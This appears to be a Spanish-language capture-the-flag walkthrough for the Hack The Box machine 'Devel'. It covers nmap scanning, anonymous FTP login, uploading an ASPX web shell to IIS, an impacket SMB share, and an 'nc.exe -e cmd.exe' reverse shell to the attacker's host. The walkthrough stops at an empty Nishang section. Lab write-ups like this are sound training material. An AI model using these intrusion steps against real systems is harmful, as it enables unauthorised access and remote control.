 # Devel

## NMAP 

```
batcat -l ruby Scan
nmap -sCV -Pn -O -A -p21,80 -oN Scan 10.129.7.194
```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/f4235216-32cf-4ccd-a556-c1ed94f370aa)


## ftp 

Necesitamos conectarnos al ftp y primero con sesiones nulas

```
ftp 10.129.8.38
user:anonymous
pass:anonymous
help
ls -la
```

Enumerando un poco

```
whatweb http://10.129.8.38
curl -I -s http://10.129.8.38
curl -I -s -X GET http://10.129.8.38

```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/dddc2d45-6951-499e-bde9-663b85777836)

Esto quiere decir que puede interpretar .aspx

## RCE

Nos damos cuenta que el ftp esta conectad con el iispor lo que vamos a hacer es subir una shell Kali tienen varias...

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/6f85e96d-132a-4358-9bd1-d686098fad64)


```
sudo updatedb
locate *aspx* 
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
```

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/da9afa8e-abba-48ec-9a7f-c1b450bd775a)

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/18167bd9-6a6c-4f08-b6e7-2502b237183b)

### Compartir archivos a windows

Podemos montar una carpeta compartida en Kali y acceder desde Windows para esto se va a usar impacket-smbserver:

![image](https://github.com/gecr07/Devel-HTB/assets/63270579/0241faf2-95a9-4db7-97a2-dbcef62954e1)


```
impacket-smbserver smbFolder $(pwd)

```

Desde Windows ya sea un cmd o un ps puedes usar 

```
copy \\10.10.14.90\smbFolder\archivo

```

## RCE via nc

En kali seclist tiene nc.exe


```
\\10.10.14.80\share\nc.exe -e cmd.exe 10.10.14.80 443

```

### RCE via Nishang




















































































































































